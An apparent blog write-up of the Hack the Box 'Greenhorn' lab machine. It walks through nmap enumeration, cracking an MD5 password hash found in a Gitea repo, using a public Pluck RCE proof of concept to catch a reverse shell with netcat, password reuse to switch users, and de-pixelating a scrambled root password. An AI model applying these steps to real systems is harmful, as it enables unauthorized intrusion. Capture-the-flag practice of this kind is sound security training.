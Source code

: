 ```yaml
---
draft: false
title: "Hack the Box #6 - Greenhorn without Metasploit"
date: 2024-10-07
author: William
category:
  - Tech
tags:
  - Security
  - Hacking
  - Linux
description: Detailed Hack the Box Greenhorn write-up where I share the full process of enumeration, exploitation, and privilege escalation. From cracking MD5 hashes to leveraging a PoC for a reverse shell, and even using a de-pixelling tool for root access, this guide takes you through the challenges and solutions of this HTB box. Perfect for CTF enthusiasts looking for in-depth insights and a step-by-step breakdown of exploiting Greenhorn!
cover:
  image: GreenHorn.png
  alt: GreenHorn.png
---
```


I would be lying if I said I posted this Hack the Box Greenhorn writeup within the same week of me exploiting it. In truth life happened. I did a SANs and a couple of late nights out. But here it is, my greenhorn writeup. 

## Enumeration
Lets start as we always do after booting up the box and have a look at what ports are available to us with an nmap.
```bash
└─$ nmap -sV -p- 10.10.11.25 -oN nmap.scan
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-19 22:55 BST
Nmap scan report for 10.10.11.25
Host is up (0.056s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
3000/tcp open  ppp?
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3000-TCP:V=7.94SVN%I=7%D=9/19%Time=66EC9DF4%P=x86_64-pc-linux-gnu%r
...
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 107.25 seconds
```

Port 22 and 80 are pretty standard. SSH and a basic webserver. But what is this port 3000 you might ask?  Hitting port 3000 from the browser we are greeted with...
![Gitea](https://about.gitea.com/gitea-text.svg)
Gitea is a self-hosted GitHub which I have considered hosting myself from time to time. 
In poking around we find a repository on Gitea for a software called pluck. They were even kind enough to in include the version 4.7.18

Going to google and using my extensive searching knowledge by typing "pluck 4.7.18 Exploit poc Github" and we find this lovely [repo](https://github.com/Rai2en/CVE-2023-50564_Pluck-v4.7.18_PoC)

Cool beans so we have an exploit but when looking at the exploit we need to authenticate for that.

Rummaging through the repo some more we find that MD5 hash is used to encrypt passwords, this is a very secure choice if you want to get pwned! These guys know what they are doing!!! And with a little bit more rummaging we find under the settings folder there is a file called pass.php with a suspiciously MD5 looking hash

Taking that badboy and throwing it into [crackstation.net](https://crackstation.net/), we have a match!!! `iloveyou1` awww i love you to greenhorn. Now that we have everything we need lets have a look at this pluck webserver running on port 80.

Navigating to the login page we only need to put in a password. Great with a quick `iloveyou1` we are logged in! Now we can leverage the sweet sweet remote code execution PoC we found earlier.

## Exploitation
Lets take a closer look at the script we have. It requires the following details to execute correctly

```bash
login_url = "http://<hostname>/login.php"
upload_url = "http://<hostname>/admin.php?action=installmodule"
headers = {"Referer": login_url,}
login_payload = {"cont1": "<password>","<username>": "","submit": "Log in"}
```

`Hostname` and `password` we already have. For the `username` we can inspect the login payload, either through developer tools or burp (Yes we are running everything though our burp proxy).
We get the user `bogus`

Customizing the payload inline with this information we prepare out netcat to listen for the call home. And after executing the script we get catch a reverse shell.

```bash
└─# nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.14.62] from (UNKNOWN) [10.10.11.25] 44696
SOCKET: Shell has connected! PID: 84927
whoami
www-data
```

Boom. Looks like we are running the the www-data context but its something. Looking around the box we find two users `git` and `junior` git we get permission denied but junior!!!

```bash
ls /home/junior
Using OpenVAS.pdf
archivo.pdf
linpeas.sh
user.txt
```

Boys rocking linpeas like a pro! Saddly for user.txt we get permission denied. CAN YOU blame me... It was worth the try. We need to achieve persistence. SSH to the box fails, with junior being locked down with a public key.

Nothing much else of interest after poking around for a bit longer. I got to the point of insanity where I was trying to extract the .pdf files by writing my own custom HTTP server that would accept POST requests it dawned on me. What if...

```bash
su junior
Password: iloveyou1
whoami
junior

cat user.txt
============ USER_FLAG ============ 

```

![table_flip](https://i.giphy.com/sIE0hveuiwCNG.webp#center)
## Privilege Escalation 

After taking a break to sooth my stupidity, I come back to my computer ready for round 2. We can now look at the PDF files by hosting an http server on the box and pull the files to our kali box

```bash
python3 -m http.server

-------
└─$ wget <http://10.10.11.25:8080/Using\\> OpenVAS.pdf
```

Opening it we get this lovely document. I literally muttered you little bitch when I saw it.
![image.png](https://i.imgur.com/DqVqGGd.png)

WHO THE FUCK SCRAMBLES THIER PASSWORDS LIKE THIS! WHO IN THIER RIGHT MIND WILL DO THIS!!! 
It looks like some sort of image scrambling has taken place that we need to unscrable. After looking around we find this lovely repo that can help us out.

[https://github.com/spipm/Depix](https://github.com/spipm/Depix)

this will unpixulate the file

```bash
└─$ python depix.py -p ../pix.png -s images/searchimages/debruinseq_notepad_Windows10_closeAndSpaced.png 

```
Go from this
![image.png](https://i.imgur.com/sQ4XjKl.png)

 to this
![image.png](https://i.imgur.com/vAruc7U.png)

Now we follow the guide and use this for root access

```bash
└─$ ssh root@10.10.11.25  
root@10.10.11.25 password: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-113-generic x86_64)

...

Last login: Thu Jul 18 12:55:08 2024 from 10.10.14.41
root@greenhorn:~#

root@greenhorn:~# cat root.txt 
============ROOT_FLAG============
```


And  like that we have root. YAY! 
To be honest not my favourite HTB CTF I have done. Getting a foot hold was fun, but the unscrambling of the password though cool just annoyed me. But anyway I'm going to go touch grass and oh here is the [proof of my accomplishment](https://www.hackthebox.com/achievement/machine/1695260/617). 

![Grass](https://i.giphy.com/phFw0JVlNfXCE.webp#center)